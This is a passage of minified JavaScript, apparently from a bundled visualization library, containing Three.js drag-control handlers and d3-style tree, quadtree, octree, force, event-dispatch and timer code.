instead."),this.raycaster}setObjects(t){console.warn("THREE.DragControls: setObjects() has been deprecated. Use controls.objects instead."),this.objects=t}getObjects(){return console.warn("THREE.DragControls: getObjects() has been deprecated. Use controls.objects instead."),this.objects}activate(){console.warn("THREE.DragControls: activate() has been renamed to connect()."),this.connect()}deactivate(){console.warn("THREE.DragControls: deactivate() has been renamed to disconnect()."),this.disconnect()}set mode(t){console.warn("THREE.DragControls: The .mode property has been removed. Define the type of transformation via the .mouseButtons or .touches properties.")}get mode(){console.warn("THREE.DragControls: The .mode property has been removed. Define the type of transformation via the .mouseButtons or .touches properties.")}}function gl(t){const e=this.object,n=this.domElement,i=this.raycaster;if(!1!==this.enabled){if(this._updatePointer(t),i.setFromCamera(tl,e),cl)this.state===pl?i.ray.intersectPlane(Qs,rl)&&cl.position.copy(rl.sub(el).applyMatrix4(ol)):this.state===fl&&(nl.subVectors(tl,il).multiplyScalar(this.rotateSpeed),cl.rotateOnWorldAxis(sl,nl.x),cl.rotateOnWorldAxis(ll.normalize(),-nl.y)),this.dispatchEvent({type:"drag",object:cl}),il.copy(tl);else if("mouse"===t.pointerType||"pen"===t.pointerType)if(ul.length=0,i.setFromCamera(tl,e),i.intersectObjects(this.objects,this.recursive,ul),ul.length>0){const t=ul[0].object;Qs.setFromNormalAndCoplanarPoint(e.getWorldDirection(Qs.normal),al.setFromMatrixPosition(t.matrixWorld)),hl!==t&&null!==hl&&(this.dispatchEvent({type:"hoveroff",object:hl}),n.style.cursor="auto",hl=null),hl!==t&&(this.dispatchEvent({type:"hoveron",object:t}),n.style.cursor="pointer",hl=t)}else null!==hl&&(this.dispatchEvent({type:"hoveroff",object:hl}),n.style.cursor="auto",hl=null);il.copy(tl)}}function _l(t){const e=this.object,n=this.domElement,i=this.raycaster;!1!==this.enabled&&(this._updatePointer(t),this._updateState(t),ul.length=0,i.setFromCamera(tl,e),i.intersectObjects(this.objects,this.recursive,ul),ul.length>0&&(cl=!0===this.transformGroup?xl(ul[0].object):ul[0].object,Qs.setFromNormalAndCoplanarPoint(e.getWorldDirection(Qs.normal),al.setFromMatrixPosition(cl.matrixWorld)),i.ray.intersectPlane(Qs,rl)&&(this.state===pl?(ol.copy(cl.parent.matrixWorld).invert(),el.copy(rl).sub(al.setFromMatrixPosition(cl.matrixWorld))):this.state===fl&&(sl.set(0,1,0).applyQuaternion(e.quaternion).normalize(),ll.set(1,0,0).applyQuaternion(e.quaternion).normalize())),n.style.cursor="move",this.dispatchEvent({type:"dragstart",object:cl})),il.copy(tl))}function vl(){!1!==this.enabled&&(cl&&(this.dispatchEvent({type:"dragend",object:cl}),cl=null),this.domElement.style.cursor=hl?"pointer":"auto",this.state=dl)}function yl(t){!1!==this.enabled&&t.preventDefault()}function xl(t,e=null){return t.isGroup&&(e=t),null===t.parent?e:xl(t.parent,e)}function bl(t,e,n){var i,r=1;function a(){var a,o,s=i.length,l=0,c=0,h=0;for(a=0;a<s;++a)l+=(o=i[a]).x||0,c+=o.y||0,h+=o.z||0;for(l=(l/s-t)*r,c=(c/s-e)*r,h=(h/s-n)*r,a=0;a<s;++a)o=i[a],l&&(o.x-=l),c&&(o.y-=c),h&&(o.z-=h)}return null==t&&(t=0),null==e&&(e=0),null==n&&(n=0),a.initialize=function(t){i=t},a.x=function(e){return arguments.length?(t=+e,a):t},a.y=function(t){return arguments.length?(e=+t,a):e},a.z=function(t){return arguments.length?(n=+t,a):n},a.strength=function(t){return arguments.length?(r=+t,a):r},a}function Ml(t,e,n){if(isNaN(e))return t;var i,r,a,o,s,l,c=t._root,h={data:n},u=t._x0,d=t._x1;if(!c)return t._root=h,t;for(;c.length;)if((o=e>=(r=(u+d)/2))?u=r:d=r,i=c,!(c=c[s=+o]))return i[s]=h,t;if(e===(a=+t._x.call(null,c.data)))return h.next=c,i?i[s]=h:t._root=h,t;do{i=i?i[s]=new Array(2):t._root=new Array(2),(o=e>=(r=(u+d)/2))?u=r:d=r}while((s=+o)==(l=+(a>=r)));return i[l]=c,i[s]=h,t}function Sl(t,e,n){this.node=t,this.x0=e,this.x1=n}function El(t){return t[0]}function wl(t,e){var n=new Tl(null==e?El:e,NaN,NaN);return null==t?n:n.addAll(t)}function Tl(t,e,n){this._x=t,this._x0=e,this._x1=n,this._root=void 0}function Al(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}var Cl=wl.prototype=Tl.prototype;function Rl(t,e,n,i){if(isNaN(e)||isNaN(n))return t;var r,a,o,s,l,c,h,u,d,p=t._root,f={data:i},m=t._x0,g=t._y0,_=t._x1,v=t._y1;if(!p)return t._root=f,t;for(;p.length;)if((c=e>=(a=(m+_)/2))?m=a:_=a,(h=n>=(o=(g+v)/2))?g=o:v=o,r=p,!(p=p[u=h<<1|c]))return r[u]=f,t;if(s=+t._x.call(null,p.data),l=+t._y.call(null,p.data),e===s&&n===l)return f.next=p,r?r[u]=f:t._root=f,t;do{r=r?r[u]=new Array(4):t._root=new Array(4),(c=e>=(a=(m+_)/2))?m=a:_=a,(h=n>=(o=(g+v)/2))?g=o:v=o}while((u=h<<1|c)==(d=(l>=o)<<1|s>=a));return r[d]=p,r[u]=f,t}function Pl(t,e,n,i,r){this.node=t,this.x0=e,this.y0=n,this.x1=i,this.y1=r}function Ll(t){return t[0]}function Dl(t){return t[1]}function Il(t,e,n){var i=new Ol(null==e?Ll:e,null==n?Dl:n,NaN,NaN,NaN,NaN);return null==t?i:i.addAll(t)}function Ol(t,e,n,i,r,a){this._x=t,this._y=e,this._x0=n,this._y0=i,this._x1=r,this._y1=a,this._root=void 0}function Ul(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}Cl.copy=function(){var t,e,n=new Tl(this._x,this._x0,this._x1),i=this._root;if(!i)return n;if(!i.length)return n._root=Al(i),n;for(t=[{source:i,target:n._root=new Array(2)}];i=t.pop();)for(var r=0;r<2;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(2)}):i.target[r]=Al(e));return n},Cl.add=function(t){const e=+this._x.call(null,t);return Ml(this.cover(e),e,t)},Cl.addAll=function(t){Array.isArray(t)||(t=Array.from(t));const e=t.length,n=new Float64Array(e);let i=1/0,r=-1/0;for(let a,o=0;o<e;++o)isNaN(a=+this._x.call(null,t[o]))||(n[o]=a,a<i&&(i=a),a>r&&(r=a));if(i>r)return this;this.cover(i).cover(r);for(let i=0;i<e;++i)Ml(this,n[i],t[i]);return this},Cl.cover=function(t){if(isNaN(t=+t))return this;var e=this._x0,n=this._x1;if(isNaN(e))n=(e=Math.floor(t))+1;else{for(var i,r,a=n-e||1,o=this._root;e>t||t>=n;)switch(r=+(t<e),(i=new Array(2))[r]=o,o=i,a*=2,r){case 0:n=e+a;break;case 1:e=n-a}this._root&&this._root.length&&(this._root=o)}return this._x0=e,this._x1=n,this},Cl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Cl.extent=function(t){return arguments.length?this.cover(+t[0][0]).cover(+t[1][0]):isNaN(this._x0)?void 0:[[this._x0],[this._x1]]},Cl.find=function(t,e){var n,i,r,a,o,s=this._x0,l=this._x1,c=[],h=this._root;for(h&&c.push(new Sl(h,s,l)),null==e?e=1/0:(s=t-e,l=t+e);a=c.pop();)if(!(!(h=a.node)||(i=a.x0)>l||(r=a.x1)<s))if(h.length){var u=(i+r)/2;c.push(new Sl(h[1],u,r),new Sl(h[0],i,u)),(o=+(t>=u))&&(a=c[c.length-1],c[c.length-1]=c[c.length-1-o],c[c.length-1-o]=a)}else{var d=Math.abs(t-+this._x.call(null,h.data));d<e&&(e=d,s=t-d,l=t+d,n=h.data)}return n},Cl.remove=function(t){if(isNaN(a=+this._x.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h=this._root,u=this._x0,d=this._x1;if(!h)return this;if(h.length)for(;;){if((s=a>=(o=(u+d)/2))?u=o:d=o,e=h,!(h=h[l=+s]))return this;if(!h.length)break;e[l+1&1]&&(n=e,c=l)}for(;h.data!==t;)if(i=h,!(h=h.next))return this;return(r=h.next)&&delete h.next,i?(r?i.next=r:delete i.next,this):e?(r?e[l]=r:delete e[l],(h=e[0]||e[1])&&h===(e[1]||e[0])&&!h.length&&(n?n[c]=h:this._root=h),this):(this._root=r,this)},Cl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Cl.root=function(){return this._root},Cl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Cl.visit=function(t){var e,n,i,r,a=[],o=this._root;for(o&&a.push(new Sl(o,this._x0,this._x1));e=a.pop();)if(!t(o=e.node,i=e.x0,r=e.x1)&&o.length){var s=(i+r)/2;(n=o[1])&&a.push(new Sl(n,s,r)),(n=o[0])&&a.push(new Sl(n,i,s))}return this},Cl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new Sl(this._root,this._x0,this._x1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.x1,l=(o+s)/2;(a=r[0])&&n.push(new Sl(a,o,l)),(a=r[1])&&n.push(new Sl(a,l,s))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.x1);return this},Cl.x=function(t){return arguments.length?(this._x=t,this):this._x};var Nl=Il.prototype=Ol.prototype;function Fl(t,e,n,i,r){if(isNaN(e)||isNaN(n)||isNaN(i))return t;var a,o,s,l,c,h,u,d,p,f,m,g,_=t._root,v={data:r},y=t._x0,x=t._y0,b=t._z0,M=t._x1,S=t._y1,E=t._z1;if(!_)return t._root=v,t;for(;_.length;)if((d=e>=(o=(y+M)/2))?y=o:M=o,(p=n>=(s=(x+S)/2))?x=s:S=s,(f=i>=(l=(b+E)/2))?b=l:E=l,a=_,!(_=_[m=f<<2|p<<1|d]))return a[m]=v,t;if(c=+t._x.call(null,_.data),h=+t._y.call(null,_.data),u=+t._z.call(null,_.data),e===c&&n===h&&i===u)return v.next=_,a?a[m]=v:t._root=v,t;do{a=a?a[m]=new Array(8):t._root=new Array(8),(d=e>=(o=(y+M)/2))?y=o:M=o,(p=n>=(s=(x+S)/2))?x=s:S=s,(f=i>=(l=(b+E)/2))?b=l:E=l}while((m=f<<2|p<<1|d)==(g=(u>=l)<<2|(h>=s)<<1|c>=o));return a[g]=_,a[m]=v,t}function kl(t,e,n,i,r,a,o){this.node=t,this.x0=e,this.y0=n,this.z0=i,this.x1=r,this.y1=a,this.z1=o}function zl(t){return t[0]}function Bl(t){return t[1]}function Hl(t){return t[2]}function Vl(t,e,n,i){var r=new Gl(null==e?zl:e,null==n?Bl:n,null==i?Hl:i,NaN,NaN,NaN,NaN,NaN,NaN);return null==t?r:r.addAll(t)}function Gl(t,e,n,i,r,a,o,s,l){this._x=t,this._y=e,this._z=n,this._x0=i,this._y0=r,this._z0=a,this._x1=o,this._y1=s,this._z1=l,this._root=void 0}function jl(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}Nl.copy=function(){var t,e,n=new Ol(this._x,this._y,this._x0,this._y0,this._x1,this._y1),i=this._root;if(!i)return n;if(!i.length)return n._root=Ul(i),n;for(t=[{source:i,target:n._root=new Array(4)}];i=t.pop();)for(var r=0;r<4;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(4)}):i.target[r]=Ul(e));return n},Nl.add=function(t){const e=+this._x.call(null,t),n=+this._y.call(null,t);return Rl(this.cover(e,n),e,n,t)},Nl.addAll=function(t){var e,n,i,r,a=t.length,o=new Array(a),s=new Array(a),l=1/0,c=1/0,h=-1/0,u=-1/0;for(n=0;n<a;++n)isNaN(i=+this._x.call(null,e=t[n]))||isNaN(r=+this._y.call(null,e))||(o[n]=i,s[n]=r,i<l&&(l=i),i>h&&(h=i),r<c&&(c=r),r>u&&(u=r));if(l>h||c>u)return this;for(this.cover(l,c).cover(h,u),n=0;n<a;++n)Rl(this,o[n],s[n],t[n]);return this},Nl.cover=function(t,e){if(isNaN(t=+t)||isNaN(e=+e))return this;var n=this._x0,i=this._y0,r=this._x1,a=this._y1;if(isNaN(n))r=(n=Math.floor(t))+1,a=(i=Math.floor(e))+1;else{for(var o,s,l=r-n||1,c=this._root;n>t||t>=r||i>e||e>=a;)switch(s=(e<i)<<1|t<n,(o=new Array(4))[s]=c,c=o,l*=2,s){case 0:r=n+l,a=i+l;break;case 1:n=r-l,a=i+l;break;case 2:r=n+l,i=a-l;break;case 3:n=r-l,i=a-l}this._root&&this._root.length&&(this._root=c)}return this._x0=n,this._y0=i,this._x1=r,this._y1=a,this},Nl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Nl.extent=function(t){return arguments.length?this.cover(+t[0][0],+t[0][1]).cover(+t[1][0],+t[1][1]):isNaN(this._x0)?void 0:[[this._x0,this._y0],[this._x1,this._y1]]},Nl.find=function(t,e,n){var i,r,a,o,s,l,c,h=this._x0,u=this._y0,d=this._x1,p=this._y1,f=[],m=this._root;for(m&&f.push(new Pl(m,h,u,d,p)),null==n?n=1/0:(h=t-n,u=e-n,d=t+n,p=e+n,n*=n);l=f.pop();)if(!(!(m=l.node)||(r=l.x0)>d||(a=l.y0)>p||(o=l.x1)<h||(s=l.y1)<u))if(m.length){var g=(r+o)/2,_=(a+s)/2;f.push(new Pl(m[3],g,_,o,s),new Pl(m[2],r,_,g,s),new Pl(m[1],g,a,o,_),new Pl(m[0],r,a,g,_)),(c=(e>=_)<<1|t>=g)&&(l=f[f.length-1],f[f.length-1]=f[f.length-1-c],f[f.length-1-c]=l)}else{var v=t-+this._x.call(null,m.data),y=e-+this._y.call(null,m.data),x=v*v+y*y;if(x<n){var b=Math.sqrt(n=x);h=t-b,u=e-b,d=t+b,p=e+b,i=m.data}}return i},Nl.remove=function(t){if(isNaN(a=+this._x.call(null,t))||isNaN(o=+this._y.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h,u,d,p=this._root,f=this._x0,m=this._y0,g=this._x1,_=this._y1;if(!p)return this;if(p.length)for(;;){if((c=a>=(s=(f+g)/2))?f=s:g=s,(h=o>=(l=(m+_)/2))?m=l:_=l,e=p,!(p=p[u=h<<1|c]))return this;if(!p.length)break;(e[u+1&3]||e[u+2&3]||e[u+3&3])&&(n=e,d=u)}for(;p.data!==t;)if(i=p,!(p=p.next))return this;return(r=p.next)&&delete p.next,i?(r?i.next=r:delete i.next,this):e?(r?e[u]=r:delete e[u],(p=e[0]||e[1]||e[2]||e[3])&&p===(e[3]||e[2]||e[1]||e[0])&&!p.length&&(n?n[d]=p:this._root=p),this):(this._root=r,this)},Nl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Nl.root=function(){return this._root},Nl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Nl.visit=function(t){var e,n,i,r,a,o,s=[],l=this._root;for(l&&s.push(new Pl(l,this._x0,this._y0,this._x1,this._y1));e=s.pop();)if(!t(l=e.node,i=e.x0,r=e.y0,a=e.x1,o=e.y1)&&l.length){var c=(i+a)/2,h=(r+o)/2;(n=l[3])&&s.push(new Pl(n,c,h,a,o)),(n=l[2])&&s.push(new Pl(n,i,h,c,o)),(n=l[1])&&s.push(new Pl(n,c,r,a,h)),(n=l[0])&&s.push(new Pl(n,i,r,c,h))}return this},Nl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new Pl(this._root,this._x0,this._y0,this._x1,this._y1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.y0,l=e.x1,c=e.y1,h=(o+l)/2,u=(s+c)/2;(a=r[0])&&n.push(new Pl(a,o,s,h,u)),(a=r[1])&&n.push(new Pl(a,h,s,l,u)),(a=r[2])&&n.push(new Pl(a,o,u,h,c)),(a=r[3])&&n.push(new Pl(a,h,u,l,c))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.y0,e.x1,e.y1);return this},Nl.x=function(t){return arguments.length?(this._x=t,this):this._x},Nl.y=function(t){return arguments.length?(this._y=t,this):this._y};var Wl=Vl.prototype=Gl.prototype;function Xl(t){return function(){return t}}function ql(t){return 1e-6*(t()-.5)}function Yl(t){return t.index}function Kl(t,e){var n=t.get(e);if(!n)throw new Error("node not found: "+e);return n}function Zl(t){var e,n,i,r,a,o,s,l=Yl,c=function(t){return 1/Math.min(a[t.source.index],a[t.target.index])},h=Xl(30),u=1;function d(i){for(var a=0,l=t.length;a<u;++a)for(var c,h,d,p,f,m=0,g=0,_=0,v=0;m<l;++m)h=(c=t[m]).source,g=(d=c.target).x+d.vx-h.x-h.vx||ql(s),r>1&&(_=d.y+d.vy-h.y-h.vy||ql(s)),r>2&&(v=d.z+d.vz-h.z-h.vz||ql(s)),g*=p=((p=Math.sqrt(g*g+_*_+v*v))-n[m])/p*i*e[m],_*=p,v*=p,d.vx-=g*(f=o[m]),r>1&&(d.vy-=_*f),r>2&&(d.vz-=v*f),h.vx+=g*(f=1-f),r>1&&(h.vy+=_*f),r>2&&(h.vz+=v*f)}function p(){if(i){var r,s,c=i.length,h=t.length,u=new Map(i.map(((t,e)=>[l(t,e,i),t])));for(r=0,a=new Array(c);r<h;++r)(s=t[r]).index=r,"object"!=typeof s.source&&(s.source=Kl(u,s.source)),"object"!=typeof s.target&&(s.target=Kl(u,s.target)),a[s.source.index]=(a[s.source.index]||0)+1,a[s.target.index]=(a[s.target.index]||0)+1;for(r=0,o=new Array(h);r<h;++r)s=t[r],o[r]=a[s.source.index]/(a[s.source.index]+a[s.target.index]);e=new Array(h),f(),n=new Array(h),m()}}function f(){if(i)for(var n=0,r=t.length;n<r;++n)e[n]=+c(t[n],n,t)}function m(){if(i)for(var e=0,r=t.length;e<r;++e)n[e]=+h(t[e],e,t)}return null==t&&(t=[]),d.initialize=function(t,...e){i=t,s=e.find((t=>"function"==typeof t))||Math.random,r=e.find((t=>[1,2,3].includes(t)))||2,p()},d.links=function(e){return arguments.length?(t=e,p(),d):t},d.id=function(t){return arguments.length?(l=t,d):l},d.iterations=function(t){return arguments.length?(u=+t,d):u},d.strength=function(t){return arguments.length?(c="function"==typeof t?t:Xl(+t),f(),d):c},d.distance=function(t){return arguments.length?(h="function"==typeof t?t:Xl(+t),m(),d):h},d}Wl.copy=function(){var t,e,n=new Gl(this._x,this._y,this._z,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1),i=this._root;if(!i)return n;if(!i.length)return n._root=jl(i),n;for(t=[{source:i,target:n._root=new Array(8)}];i=t.pop();)for(var r=0;r<8;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(8)}):i.target[r]=jl(e));return n},Wl.add=function(t){const e=+this._x.call(null,t),n=+this._y.call(null,t),i=+this._z.call(null,t);return Fl(this.cover(e,n,i),e,n,i,t)},Wl.addAll=function(t){Array.isArray(t)||(t=Array.from(t));const e=t.length,n=new Float64Array(e),i=new Float64Array(e),r=new Float64Array(e);let a=1/0,o=1/0,s=1/0,l=-1/0,c=-1/0,h=-1/0;for(let u,d,p,f,m=0;m<e;++m)isNaN(d=+this._x.call(null,u=t[m]))||isNaN(p=+this._y.call(null,u))||isNaN(f=+this._z.call(null,u))||(n[m]=d,i[m]=p,r[m]=f,d<a&&(a=d),d>l&&(l=d),p<o&&(o=p),p>c&&(c=p),f<s&&(s=f),f>h&&(h=f));if(a>l||o>c||s>h)return this;this.cover(a,o,s).cover(l,c,h);for(let a=0;a<e;++a)Fl(this,n[a],i[a],r[a],t[a]);return this},Wl.cover=function(t,e,n){if(isNaN(t=+t)||isNaN(e=+e)||isNaN(n=+n))return this;var i=this._x0,r=this._y0,a=this._z0,o=this._x1,s=this._y1,l=this._z1;if(isNaN(i))o=(i=Math.floor(t))+1,s=(r=Math.floor(e))+1,l=(a=Math.floor(n))+1;else{for(var c,h,u=o-i||1,d=this._root;i>t||t>=o||r>e||e>=s||a>n||n>=l;)switch(h=(n<a)<<2|(e<r)<<1|t<i,(c=new Array(8))[h]=d,d=c,u*=2,h){case 0:o=i+u,s=r+u,l=a+u;break;case 1:i=o-u,s=r+u,l=a+u;break;case 2:o=i+u,r=s-u,l=a+u;break;case 3:i=o-u,r=s-u,l=a+u;break;case 4:o=i+u,s=r+u,a=l-u;break;case 5:i=o-u,s=r+u,a=l-u;break;case 6:o=i+u,r=s-u,a=l-u;break;case 7:i=o-u,r=s-u,a=l-u}this._root&&this._root.length&&(this._root=d)}return this._x0=i,this._y0=r,this._z0=a,this._x1=o,this._y1=s,this._z1=l,this},Wl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Wl.extent=function(t){return arguments.length?this.cover(+t[0][0],+t[0][1],+t[0][2]).cover(+t[1][0],+t[1][1],+t[1][2]):isNaN(this._x0)?void 0:[[this._x0,this._y0,this._z0],[this._x1,this._y1,this._z1]]},Wl.find=function(t,e,n,i){var r,a,o,s,l,c,h,u,d,p=this._x0,f=this._y0,m=this._z0,g=this._x1,_=this._y1,v=this._z1,y=[],x=this._root;for(x&&y.push(new kl(x,p,f,m,g,_,v)),null==i?i=1/0:(p=t-i,f=e-i,m=n-i,g=t+i,_=e+i,v=n+i,i*=i);u=y.pop();)if(!(!(x=u.node)||(a=u.x0)>g||(o=u.y0)>_||(s=u.z0)>v||(l=u.x1)<p||(c=u.y1)<f||(h=u.z1)<m))if(x.length){var b=(a+l)/2,M=(o+c)/2,S=(s+h)/2;y.push(new kl(x[7],b,M,S,l,c,h),new kl(x[6],a,M,S,b,c,h),new kl(x[5],b,o,S,l,M,h),new kl(x[4],a,o,S,b,M,h),new kl(x[3],b,M,s,l,c,S),new kl(x[2],a,M,s,b,c,S),new kl(x[1],b,o,s,l,M,S),new kl(x[0],a,o,s,b,M,S)),(d=(n>=S)<<2|(e>=M)<<1|t>=b)&&(u=y[y.length-1],y[y.length-1]=y[y.length-1-d],y[y.length-1-d]=u)}else{var E=t-+this._x.call(null,x.data),w=e-+this._y.call(null,x.data),T=n-+this._z.call(null,x.data),A=E*E+w*w+T*T;if(A<i){var C=Math.sqrt(i=A);p=t-C,f=e-C,m=n-C,g=t+C,_=e+C,v=n+C,r=x.data}}return r},Wl.remove=function(t){if(isNaN(a=+this._x.call(null,t))||isNaN(o=+this._y.call(null,t))||isNaN(s=+this._z.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h,u,d,p,f,m,g=this._root,_=this._x0,v=this._y0,y=this._z0,x=this._x1,b=this._y1,M=this._z1;if(!g)return this;if(g.length)for(;;){if((u=a>=(l=(_+x)/2))?_=l:x=l,(d=o>=(c=(v+b)/2))?v=c:b=c,(p=s>=(h=(y+M)/2))?y=h:M=h,e=g,!(g=g[f=p<<2|d<<1|u]))return this;if(!g.length)break;(e[f+1&7]||e[f+2&7]||e[f+3&7]||e[f+4&7]||e[f+5&7]||e[f+6&7]||e[f+7&7])&&(n=e,m=f)}for(;g.data!==t;)if(i=g,!(g=g.next))return this;return(r=g.next)&&delete g.next,i?(r?i.next=r:delete i.next,this):e?(r?e[f]=r:delete e[f],(g=e[0]||e[1]||e[2]||e[3]||e[4]||e[5]||e[6]||e[7])&&g===(e[7]||e[6]||e[5]||e[4]||e[3]||e[2]||e[1]||e[0])&&!g.length&&(n?n[m]=g:this._root=g),this):(this._root=r,this)},Wl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Wl.root=function(){return this._root},Wl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Wl.visit=function(t){var e,n,i,r,a,o,s,l,c=[],h=this._root;for(h&&c.push(new kl(h,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1));e=c.pop();)if(!t(h=e.node,i=e.x0,r=e.y0,a=e.z0,o=e.x1,s=e.y1,l=e.z1)&&h.length){var u=(i+o)/2,d=(r+s)/2,p=(a+l)/2;(n=h[7])&&c.push(new kl(n,u,d,p,o,s,l)),(n=h[6])&&c.push(new kl(n,i,d,p,u,s,l)),(n=h[5])&&c.push(new kl(n,u,r,p,o,d,l)),(n=h[4])&&c.push(new kl(n,i,r,p,u,d,l)),(n=h[3])&&c.push(new kl(n,u,d,a,o,s,p)),(n=h[2])&&c.push(new kl(n,i,d,a,u,s,p)),(n=h[1])&&c.push(new kl(n,u,r,a,o,d,p)),(n=h[0])&&c.push(new kl(n,i,r,a,u,d,p))}return this},Wl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new kl(this._root,this._x0,this._y0,this._z0,this._x1,this._y1,this._z1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.y0,l=e.z0,c=e.x1,h=e.y1,u=e.z1,d=(o+c)/2,p=(s+h)/2,f=(l+u)/2;(a=r[0])&&n.push(new kl(a,o,s,l,d,p,f)),(a=r[1])&&n.push(new kl(a,d,s,l,c,p,f)),(a=r[2])&&n.push(new kl(a,o,p,l,d,h,f)),(a=r[3])&&n.push(new kl(a,d,p,l,c,h,f)),(a=r[4])&&n.push(new kl(a,o,s,f,d,p,u)),(a=r[5])&&n.push(new kl(a,d,s,f,c,p,u)),(a=r[6])&&n.push(new kl(a,o,p,f,d,h,u)),(a=r[7])&&n.push(new kl(a,d,p,f,c,h,u))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.y0,e.z0,e.x1,e.y1,e.z1);return this},Wl.x=function(t){return arguments.length?(this._x=t,this):this._x},Wl.y=function(t){return arguments.length?(this._y=t,this):this._y},Wl.z=function(t){return arguments.length?(this._z=t,this):this._z};var $l={value:()=>{}};function Jl(){for(var t,e=0,n=arguments.length,i={};e<n;++e){if(!(t=arguments[e]+"")||t in i||/[\s.]/.test(t))throw new Error("illegal type: "+t);i[t]=[]}return new Ql(i)}function Ql(t){this._=t}function tc(t,e){for(var n,i=0,r=t.length;i<r;++i)if((n=t[i]).name===e)return n.value}function ec(t,e,n){for(var i=0,r=t.length;i<r;++i)if(t[i].name===e){t[i]=$l,t=t.slice(0,i).concat(t.slice(i+1));break}return null!=n&&t.push({name:e,value:n}),t}Ql.prototype=Jl.prototype={constructor:Ql,on:function(t,e){var n,i,r=this._,a=(i=r,(t+"").trim().split(/^|\s+/).map((function(t){var e="",n=t.indexOf(".");if(n>=0&&(e=t.slice(n+1),t=t.slice(0,n)),t&&!i.hasOwnProperty(t))throw new Error("unknown type: "+t);return{type:t,name:e}}))),o=-1,s=a.length;if(!(arguments.length<2)){if(null!=e&&"function"!=typeof e)throw new Error("invalid callback: "+e);for(;++o<s;)if(n=(t=a[o]).type)r[n]=ec(r[n],t.name,e);else if(null==e)for(n in r)r[n]=ec(r[n],t.name,null);return this}for(;++o<s;)if((n=(t=a[o]).type)&&(n=tc(r[n],t.name)))return n},copy:function(){var t={},e=this._;for(var n in e)t[n]=e[n].slice();return new Ql(t)},call:function(t,e){if((n=arguments.length-2)>0)for(var n,i,r=new Array(n),a=0;a<n;++a)r[a]=arguments[a+2];if(!this._.hasOwnProperty(t))throw new Error("unknown type: "+t);for(a=0,n=(i=this._[t]).length;a<n;++a)i[a].value.apply(e,r)},apply:function(t,e,n){if(!this._.hasOwnProperty(t))throw new Error("unknown type: "+t);for(var i=this._[t],r=0,a=i.length;r<a;++r)i[r].value.apply(e,n)}};var nc,ic,rc=0,ac=0,oc=0,sc=0,lc=0,cc=0,hc="object"==typeof performance&&performance.now?performance:Date,uc="object"==typeof window&&window.requestAnimationFrame?window.requestAnimationFrame.bind(window):function(t){setTimeout(t,17)};function dc(){return lc||(uc(pc),lc=hc.now()+cc)}function pc(){lc=0}function fc(){this._call=this._time=this._next=null}function mc(t,e,n){var i=new fc;return i.restart(t,e,n),i}function gc(){lc=(sc=hc.now())+cc,rc=ac=0;try{!function(){dc(),++rc;for(var t,e=nc;e;)(t=lc-e._time)>=0&&e._call.call(void 0,t),e=e._next;--rc}()}finally{rc=0,function(){var t,e,n=nc,i=1/0;for(;n;)n._call?(i>n._time&&(i=n._time),t=n,n=n._next):(e=n._next,n._next=null,n=t?t._next=e:nc=e);ic=t,vc(i)}(),lc=0}}function _c(){var t=hc.now(),e=t-sc;e>1e3&&(cc-=e,sc=t)}function vc(t){rc||(ac&&(ac=clearTimeout(ac)),t-lc>24?(t<1/0&&(ac=setTimeout(gc,t-hc.now()-cc)),oc&&(oc=clearInterval(oc))):(oc||(sc=hc.now(),oc=setInterval(_c,1e3)),rc=1,uc(gc)))}fc.prototype=mc.prototype={constructor:fc,restart:function(t,e,n){if("function"!=typeof t)throw new TypeError("callback is not a function");n=(null==n?dc():+n)+(null==e?0:+e),this._next||ic===this||(ic?ic._next=this:nc=this,ic=this),this._call=t,this._time=n,vc()},stop:function(){this._call&&(this._call=null,this._time=1/0,vc())}};const yc=4294967296;function xc(t){return t.x}function bc(t){return t.y}function Mc(t){return t.z}var Sc,Ec,wc,Tc,Ac=Math.PI*(3-Math.sqrt(5)),Cc=20*Math.PI/(9+Math.sqrt(221));function Rc(t,e){e=e||2;var n,i=Math.min(3,Math.max(1,Math.round(e))),r=1,a=.001,o=1-Math.pow(a,1/300),s=0,l=.6,c=new Map,h=mc(p),u=Jl("tick","end"),d=function(){let t=1;return()=>(t=(1664525*t+1013904223)%yc)/yc}();function p(){f(),u.call("tick",n),r<a&&(h.stop(),u.call("end",n))}function f(e){var a,h,u=t.length;void 0===e&&(e=1);for(var d=0;d<e;++d)for(r+=(s-r)*o,c.forEach((function(t){t(r)})),a=0;a<u;++a)null==(h=t[a]).fx?h.x+=h.vx*=l:(h.x=h.fx,h.vx=0),i>1&&(null==h.fy?h.y+=h.vy*=l:(h.y=h.fy,h.vy=0)),i>2&&(null==h.fz?h.z+=h.vz*=l:(h.z=h.fz,h.vz=0));return n}function m(){for(var 